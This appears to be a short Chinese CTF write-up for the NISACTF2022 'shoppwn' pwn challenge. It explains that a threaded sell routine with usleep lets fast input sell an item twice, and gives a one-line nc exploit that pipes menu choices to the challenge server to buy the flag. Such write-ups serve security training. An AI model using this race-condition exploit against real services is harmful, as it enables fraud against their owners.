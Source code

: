 ```yaml
---
title: NISACTF2022-shoppwn-wp
date: 2023-06-13 15:03:26
tags:
- CTF
- pwn
- thread
- NISACTF2022
- nssctf
categories:
- pwn-wp
---
```

[相关资源](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/13/NISACTF2022-shoppwn-wp)  
## 0x1 分析
![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/13/NISACTF2022-shoppwn-wp/0x1.png?raw=true)  
![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/13/NISACTF2022-shoppwn-wp/0x2.png?raw=true)  
sell的时候使用pthread_create，其中有usleep，只要发送速度足够快，可以卖出两次

## 0x2 exp
```shell
echo -e '3\n0\n3\n0\n2\n1\n1\n' | nc node3.anna.nssctf.cn 28736
# sell pen
# sell pen
# buy flag
# show
```